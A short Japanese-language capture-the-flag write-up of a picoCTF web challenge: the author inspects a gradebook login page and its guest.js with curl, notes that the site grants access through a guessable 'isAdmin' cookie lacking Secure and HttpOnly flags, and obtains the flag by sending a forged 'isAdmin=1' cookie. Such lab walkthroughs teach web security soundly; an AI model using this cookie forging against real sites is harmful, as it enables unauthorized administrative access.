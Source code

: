```bash
curl -i http://saturn.picoctf.net:61304/
HTTP/1.1 200 OK
Server: nginx
Date: Mon, 09 May 2022 14:51:19 GMT
Content-Type: text/html; charset=UTF-8
Transfer-Encoding: chunked
Connection: keep-alive

<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <meta http-equiv="X-UA-Compatible" content="ie=edge">
    <title>Secure Log In</title>
  </head>
  <body>
    <script src="guest.js"></script>

    <h1>Online Gradebook</h1>
    <button type="button" onclick="continueAsGuest();">Continue as guest</button>
  </body>
</html>
```

この時点ではクッキーは設定されていない。  
``continueAsGuest()``を定義しているであろう``guest.js``を見てみる。  

```bash
$ curl http://saturn.picoctf.net:61304/guest.js



function continueAsGuest()
{
  window.location.href = '/check.php';
  document.cookie = "isAdmin=0";
}
```

あーこれはいけない。クッキー値がランダムなトークンじゃないから推測できるし、（そもそもhttpsじゃないが）``Secure``属性も``HttpOnly``もなにもかも設定していない。  

以下でフラグを取得。  

```bash
$ curl -H 'Cookie: isAdmin=1' http://saturn.picoctf.net:61304/check.php
```
